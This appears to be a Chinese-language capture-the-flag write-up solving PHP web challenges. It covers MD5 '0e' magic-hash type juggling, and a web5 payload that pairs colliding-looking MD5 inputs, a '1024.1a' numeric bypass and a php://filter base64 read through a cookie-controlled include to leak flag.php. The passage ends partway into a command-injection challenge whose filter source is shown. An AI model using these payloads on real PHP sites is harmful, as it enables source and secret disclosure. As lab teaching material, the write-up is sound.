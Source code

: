 分析可得，需要传入一个值，该值的MD5的MD5还等于该值的MD5。。。

谷歌一下，找到相关知识点`0e漏洞`：

> PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。from: [[md5 collision碰撞]即PHP对0e的缺陷漏洞](https://www.cnblogs.com/m-r-lee/p/13664402.html)

没找到。。。看官方WP找到值：`0e215962017`

传入`server.php?md5=0e215962017`

得到flag:`geek{wonderful}`

### web5

````php
<?php
// flag in flag.php
highlight_file(__FILE__);

if (isset($_GET['a']) && isset($_GET['b']) && isset($_POST['c']) && isset($_COOKIE['name'])) {
    $a = $_GET['a'];
    $b = $_GET['b'];
    $c = $_POST['c'];
    $name = $_COOKIE['name'];

    if ($a != $b && md5($a) == md5($b)) {
        if (!is_numeric($c) && $c != 1024 && intval($c) == 1024) {
            include($name.'.php');
        }
    }
}
?>
````

需要a不为b且他俩md5值一样，c是不为1024但取整后是1024，并且要通过cookie传入一个名字：

payload:`/?a=240610708&b=314826850   POST：c=1024.1a COOKIE=name=php://filter/read=convert.base64-encode/resource=flag.php`

`hackbar`拓展传入，得到base64密文`PD9waHAgIA0KJGZsYWcgPSAnZ2Vla3tZb3UgYXJlIGdyZWF0fSc7IA0KPz4=`

base64解码得到flag：`geek{You are great}`

### web6

查看源码找到`<!-- visit '/api.php?source' for hint -->`

````php
<?php

function sanitize($s) {
    $s = str_replace(';', '', $s);
    $s = str_replace(' ', '', $s);
    $s = str_replace('/', '', $s);
    $s = str_replace('flag', '', $s);
    return $s;
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

if (!isset($_POST['ip'])) {
    die('No IP Address');
}

$ip = $_POST['ip'];
````